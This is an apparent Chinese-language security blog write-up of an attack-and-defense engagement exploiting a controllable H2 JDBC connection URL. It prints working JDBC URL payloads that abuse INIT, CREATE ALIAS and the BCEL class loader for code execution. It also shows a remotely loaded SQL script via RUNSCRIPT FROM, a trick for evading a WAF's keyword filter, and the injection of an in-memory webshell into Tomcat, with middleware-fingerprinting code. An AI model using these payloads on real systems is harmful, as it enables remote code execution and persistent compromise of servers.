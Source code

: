 《记一次H2 JDBC的实战利用》

### 0x00 前言

本文记录一次攻防中针对 h2 database 的实战利用。

### 0x01 简介

主要内容：
- 基于 BCEL 构造 H2 的不出网利用
- WAF 绕过
- 判断中间件的坑点

### 0x02 失败的 H2 不出网利用 

前段时间的一次攻防项目中发现了一处 `jdbc url` 可控的漏洞，测试几个数据库后，最终探测到目标存在 h2 的依赖。

基于 BCEL 构造其不出网的利用：

```java
public class Test {
    public static void main(String[] args) throws Exception {
        String clazzBCELCode = "$$BCEL$$...";
        String connectionUrl = String.format("jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists test;create alias test as 'void exec() throws java.io.IOException  { try { new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass(\"%s\").newInstance(); } catch (Exception e){ }}';call test();", clazzBCELCode);
        Connection connection = DriverManager.getConnection(connectionUrl);
        connection.close();
    }
}
```

报错

![](./img/1682357155263.png)

分号没转义的锅，详见：[参考1]，最终构造出的可用 payload 如下
```text
String connectionUrl = String.format("jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists test\\;create alias test as 'void exec() throws java.io.IOException  { try { new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass(\"%s\").newInstance()\\; } catch (Exception e){ }}'\\;call test()\\;", clazzBCELCode);
```

![](./img/1682357765038.png)


根据手上代码判断目标中间件大概率为 tomcat，于是直接生成对应中间件的内存马，构造请求后发过去，然而: 

![](./img/1682352929048.png)

起初猜测该 waf 的规则不会特别严格，但是经过多次测试发现其拦截的关键字实在太多（Base64、BigInteger、defineClass、newInstance等），如果考虑从代码层面去绕 waf 感觉成本较大，所以暂且搁置了这条路。

想到了一种更方便、简单的绕过姿势: 
- 利用：INIT=RUNSCRIPT FROM（远程加载 sql 文件，从而不会出现太多关键字）
- 条件：需要出网

(运气还不错) 通过 http log 验证目标可以出网后， 根据bcel payload 改成 sql 文件进行测试：

```sql
drop alias if exists exec;
create alias test as 'void exec() throws java.io.IOException  { try { new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass("$$BCEL$$...").newInstance(); } catch (Exception e){ }}';
call test();
```

没啥问题，再次生成对应的内存马，

![](./img/1682425211251.png)


本地验证是否可以成功注入内存马。

![](./img/1682358575065.png)


### 0x03 绕过 WAF，拿下目标

但是后面在目标上进行远程加载 sql 文件时，再次被 waf 给拦截，

![](./img/1682352929048.png)

经过逐一删除字符发现拦截的关键字是：sql，本地黑盒测试发现 `INIT=RUNSCRIPT FROM` 的利用可以没有后缀（trick +1），

![](./img/1682359494042.png)

最终通过删除 .sql 后缀绕过 waf 并成功拿下目标。


### 0x04 一个小坑

在第一次注入内存马并没有成功,当时猜测原因是目标的中间件不是 tomcat ,因为通过当前线程的堆栈信息判断的结果为 None。

想到了两种可能：
- 工具没覆盖到目标所用中间件
- 触发代码执行的线程非 web 进程

后面经过测试后确认为第2种情况，使用优化后的代码获取到了目标的中间件。

优化前的代码: 当前线程的堆栈

```java
StackTraceElement[] stackTraceElementArray = Thread.currentThread().getStackTrace();
for (StackTraceElement element : stackTraceElementArray) {
    if (element.getClassName().contains("org.apache.catalina.core")) {
        server_type = "tomcat";
        return;
    }
    if (element.getClassName().contains("weblogic.servlet.internal")) {
        server_type = "weblogic";
        return;
    }
    ...
```

优化后的代码：所有线程的堆栈
```java
ArrayList<String> serverTypes = new ArrayList<>();
Map<Thread, StackTraceElement[]> stackTraces = Thread.getAllStackTraces();
for (Map.Entry<Thread, StackTraceElement[]> entry : stackTraces.entrySet()) {
    StackTraceElement[] stackTraceElements = entry.getValue();
    for (StackTraceElement element : stackTraceElements) {
        if (element.getClassName().contains("org.apache.catalina.core")) {
            serverTypes.add("tomcat");
        }
        if (element.getClassName().contains("weblogic.servlet.internal")) {
            serverTypes.add("weblogic");
        }
        ...
```


### 0x05 总结

就不立 flag 了，后续随缘更新。

参考
- [1] https://stackoverflow.com/questions/49254492/h2-jdbcsqlexception-url-format-error
- [2] Java安全攻防之老版本Fastjson-的一些不出网利用